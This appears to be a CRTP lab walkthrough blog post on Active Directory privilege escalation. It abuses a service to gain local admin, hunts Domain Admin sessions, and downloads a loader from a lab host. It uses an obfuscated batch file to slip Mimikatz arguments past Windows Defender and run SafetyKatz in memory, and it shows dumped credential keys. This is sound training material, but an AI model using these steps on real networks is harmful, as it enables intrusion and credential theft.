 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 1)
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## Local Privilege Escalation

### Scenarios Leading to Privilege Escalation
 
 - Hunting for Local Admin Access: Gain local admin access on other machines.
 - Hunting for High Privilege Domain Accounts: Target accounts like Domain Administrator.
 - Example Scenario : 
    1. I have local admin access on a machine
    2. A Domain Admin has a session on that machine
    3. I steal his token and impersonate him
    4. Profit!

### Methods of Local Privilege Escalation on Windows
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

### Essential Tools for Complete Coverage
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## Step 1: Check for Privilege Escalation Paths

**Tools Used:** PowerView

This step ensures you can escalate your privileges on the current machine to gain local admin rights. Start by checking for any privilege escalation paths. If any services can be abused, add your domain user to the local admin group.

### Check for any priviliege escalation path
```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_


### Abusing Services
Add your current domain user to the local Administrators group.

```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Now, our user is a local admin !_


## Step 2: Identify Machines with Local Admin Access

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1

After gaining local admin rights on one machine, identifying other machines where you have local admin access helps in expanding your control over the network. This can give you access to more resources, data, or higher-privilege accounts. So, you have to identify any computers/machines in the domain where our user has local administrative access.

### Identifying Computers with Local Admin Access

```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
_studentx has administrative access on dcorp-adminsrv and on the student machine_

So, studentx has administrative access on **dcorp-adminsrv** and on the **student machine.** We can connect to the machine with local administrative access using winrs or powershell remoting.
### Using winrs
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

### PowerShell Remoting
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## Step 3: Identify Machines with Domain Admin Sessions

**Tools Used:** PowerView

After gaining local admin access on multiple machines, the next objective is often to escalate to **domain admin** privileges. Identifying machines where domain admin accounts are actively logged in provides an opportunity to steal their tokens and elevate privileges within the domain.

### Finding Domain User Locations
To identify machines where domain admin sessions are active, we can query the Domain Controller for information on ComputerNames and membership of the domain admin group with active sessions.
```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }
_There is a domain admin session on dcorp-mgmt server!_

This information allows us to potentially exploit these sessions using techniques like winrs or PowerShell Remoting.

## Step 4: Extract Credential

**Tools Used:** SafetyKatz.exe

### **Abuse using winrs**
To extract credentials from dcorp-mgmt, we will use SafetyKatz.exe. We need to avoid direct detection, so we'll transfer Loader.exe from dcorp-ci to dcorp-mgmt.

1. Ensure WinRM Port is Open 
First, check if you can execute commands on dcorp-mgmt and confirm if the WinRM port is open:

![Result](/img/crtp/result7.png){: width="972" height="589" }
_If successful, you should see output similar to_

2. Download Loader.exe
Download Loader.exe to dcorp-ci:

```bash
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

3. Copy Loader.exe to dcorp-mgmt
Copy Loader.exe from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

4. Set Up Port Forwarding
Establish port forwarding on dcorp-mgmt to evade detection. Use $null for output redirection to prevent command execution issues:

```bash
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

5. Generate Encoded Arguments
To bypass Windows Defender on dcorp-mgmt, encode arguments passed to Loader. Run the below command on the student VM to generate encoded arguments for sekurlsa::ekeys (this step does not need to be run on the reverse shell):

```bash
ArgSplit.bat
```

![Result](/img/crtp/result8.png){: width="972" height="589" }

6. Create Batch File
Create a batch file with the encoded arguments. Below are the contents of the batch file(Safety.bat):
```bash
@echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn%
exit
```

Download the batch file on dcorp-ci:
```bash
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```

7. Copy Safety.bat to dcorp-mgmt
Copy the batch file from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```

8. Execute Safety.bat
Run the batch file on dcorp-mgmt that uses Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:

```bash
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```

If successful, you should see output similar to:

```bash
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
 * Username : svcadmin
 * Domain : DOLLARCORP.MONEYCORP.LOCAL
 * Password : (null)
* Key List :
 aes256_hmac 
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
 rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old b38ff50264b74508085d82c69794a4d8
 rc4_md4 b38ff50264b74508085d82c69794a4d8
 rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
```
